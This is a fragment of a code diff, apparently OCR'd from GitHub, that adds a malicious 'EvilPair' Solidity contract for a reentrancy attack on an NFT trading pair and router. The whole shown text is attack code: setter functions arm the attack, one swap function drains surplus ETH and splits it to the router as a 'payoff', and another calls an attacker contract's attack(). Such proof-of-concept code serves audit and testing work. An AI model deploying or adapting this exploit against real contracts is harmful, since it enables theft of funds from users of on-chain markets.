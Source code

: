 ```diff
+    }
+
+    function setAttacker(address payable _attacker) public {
+        attacker = _attacker;
+    }
+
+    function setReentrancyAttack(bool _isAttack) public{
+        isReentrancyAttack = _isAttack;
+    }
+
+    function setRouterAddress(address payable _router) public{
+        routerAddress = _router;
+    }
+
+    function swapNFTsForToken(
+        uint256[] calldata nftIds,
+        uint256 minExpectedTokenOutput,
+        address payable tokenRecipient,
+        bool isRouter,
+        address routerCaller
+    ) external virtual returns (uint256) {
+        if(isReentrancyAttack){
+            //calculate price of original purchase of user
+            //reserve that amount of eth for original buy txn to go through
+            // and drain the balance funds
+
+            // reserveAmount of eth calculation
+            uint256 numNfts = IERC721(nftAddress).balanceOf(address(this));
+            (, , , uint256 inputAmount, ,) = ICurve(bondingCurve).getBuyInfo(uint128(expectedSpotPrice), uint128(expectedDelta), numNfts, 0, 0);
+            emit evilpair_log_named_uint("input amount inside swapNFTForToken ", inputAmount);
+            emit evilpair_log_named_uint("balance eth in evilPair currently ", address(this).balance);
+
+
+            // we ignore royalties for this
+            if(address(this).balance > inputAmount){
+                uint256 splitPayment = (address(this).balance - inputAmount)*50/100;
+                //transfer 50% to the router to enable a payoff
+                (bool success, ) = address(routerAddress).call{value: splitPayment}("");
+                return splitPayment;
+            }
+            return 0;
+        }
+
+    }
+
+    function swapTokenForSpecificNFTs(
+        uint256[] calldata nftIds,
+        uint256 maxExpectedTokenInput,
+        address nftRecipient,
+        bool isRouter,
+        address routerCaller
+    ) external payable virtual returns (uint256) {
+        uint256 ethAmount = msg.value;
+        if(isReentrancyAttack){
+            EvilPairReentrancyAttacker(attacker).attack();
+
+        }
+        else{
+            sweepETH();
+        }
+
```